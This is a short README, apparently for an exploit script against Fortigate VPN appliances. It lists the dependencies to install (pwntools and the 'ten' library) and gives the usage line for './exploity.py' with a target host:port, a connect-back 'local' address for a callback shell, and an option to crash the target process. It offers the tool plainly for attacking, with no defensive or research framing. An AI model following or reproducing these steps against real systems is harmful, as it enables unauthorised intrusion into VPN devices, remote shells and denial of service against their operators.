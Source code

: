 This script is to attack Fortigate VPN.
Should be run on Linux systems like Ubuntu.

To execute, plz follow the below steps.
#### Prerequisites:
```bash
# Install python v3.10 or higher
$ sudo apt install python3
$ sudo apt install python3-pip
```
#### Install dependencies:
```bash
# Install pwntools
$ pip install pwntools
# Download ten from github and install
$ git clone https://github.com/cfreal/ten
$ cd ten
$ pip install .
```
#### Execution:
```bash
$ ./exploity.py <target> <local> <crash>
# Here
#   <target> is the target with format host:port
#   <local> is where to connect back to with format host:port
#   crash is whether to crash the process or not.
```
